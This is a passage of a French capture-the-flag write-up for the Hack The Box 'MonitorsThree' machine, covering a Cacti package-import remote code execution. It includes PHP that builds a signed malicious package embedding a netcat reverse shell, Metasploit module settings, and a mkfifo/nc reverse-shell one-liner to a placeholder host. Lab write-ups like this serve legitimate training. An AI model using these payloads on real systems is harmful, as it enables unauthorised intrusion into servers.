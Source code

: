 ```PHP
$filedata = "<?php shell_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc {IP} {PORT} >/tmp/f'); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

Après exécution du script, nous obtenons `test.xml.gz`. Dans Cacti, nous allons dans `Import/Export` > `Import Packages`. 

Nous téléchargeons le paquet malveillant et l'importons.

![cacti package import](/images/HTB-MonitorsThree/cacti_pkg_import.png)

Nous exécutons notre payload en allant sur `http://cacti.monitorsthree.htb/cacti/resource/test.php` et recevons une connexion sur notre listener.

![manual exploit foothold](/images/HTB-MonitorsThree/foothold_manual.png)

### Exploitation avec Metasploit

Dans Metasploit, nous pouvons utiliser le `multi/http/cacti_package_import_rce` pour obtenir un shell en tant que `www-data`.

```
set password greencacti2001
set rhosts cacti.monitorsthree.htb
set lhost tun0
set lport PORT_NUMBER
```

![Metasploit exploit foothold](/images/HTB-MonitorsThree/foothold_cacti.png)

Le shell n'étant pas interactif, nous passons à un shell plus performant.

![bad shell](/images/HTB-MonitorsThree/bad_shell.png)

En utilisant une commande de shell inversé (`nc mkfifo`) disponible sur [revshells](https://www.revshells.com/), nous obtenons un shell que nous améliorons.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP PORT_NUMBER >/tmp/f
```

![better shell](/images/HTB-MonitorsThree/better_shell.png)
